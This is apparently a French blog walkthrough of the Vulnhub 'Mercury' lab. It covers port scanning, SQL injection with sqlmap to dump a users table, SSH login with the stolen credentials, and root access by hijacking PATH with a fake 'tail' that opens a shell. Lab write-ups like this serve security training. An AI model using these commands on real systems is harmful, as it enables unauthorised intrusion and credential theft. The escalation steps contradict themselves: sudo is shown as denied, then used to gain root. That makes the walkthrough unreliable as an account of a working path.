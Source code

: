 ```yaml
---
title: 'Mercury - Vulnhub'
description: "Mercury walkthrough de la série planets de Vulnhub"
pubDate: 'Aug 08 2025'
heroImage: '../../assets/mercury.jpg'
---
```


# Reconnaissance

## Scan Nmap
```bash
nmap -sV -p- 192.168.0.163
```
**Ports ouverts :**
- 22/tcp → SSH  
- 8080/tcp → HTTP (serveur web interne)

---

# Exploitation Web

## 1. Exploration du site
L’URL `http://192.168.0.163:8080/` ne renvoie qu’une page blanche.  
En testant des chemins aléatoires, on obtient systématiquement une erreur 404 mentionnant :

> Route : `/mercuryfacts/`

## 2. Injection SQL
Pointage de sqlmap sur cette route :

```bash
sqlmap -u "http://192.168.0.163:8080/mercuryfacts/" --dbs --batch
```
**Base de données identifiée :** `mercury`

Dump complet :

```bash
sqlmap -u "http://192.168.0.163:8080/mercuryfacts/" -D mercury --dump --batch
```
> Récupération d’une table `users` contenant des couples login / mot de passe (hashes ou clairs).

## 3. Connexion SSH
Connexion avec les identifiants collectés :

```bash
ssh webmaster@192.168.0.163
```

Vérification des droits sudo :
```bash
sudo -l
```
> Utilisateur non autorisé à exécuter sudo.

---

# Élévation de privilèges

## Analyse du script `check_syslog.sh`
Lors de l’audit, on découvre le script `/usr/bin/check_syslog.sh` exécuté régulièrement :

```bash
#!/bin/bash
tail -n 50 /var/log/syslog
```

**Observations :**
- Le binaire `tail` est appelé **sans chemin absolu**.
- Le script est lancé avec des privilèges plus élevés.

## Exploitation
1. Créer un faux binaire `tail` dans un dossier contrôlé :
   ```bash
   mkdir /tmp/evil
   cd /tmp/evil
   echo '#!/bin/bash' > tail
   echo '/bin/sh' >> tail
   chmod +x tail
   ``

2. Modifier la variable `PATH` :
   ```bash
   export PATH=/tmp/evil:$PATH
   ```

3. Relancer le script :
   ```bash
   sudo --preserve-env=PATH /usr/bin/check_syslog.sh
   ```

4. Vérification :
   ```bash
   whoami
   ```
   > root

Le contrôle total de la machine est acquis.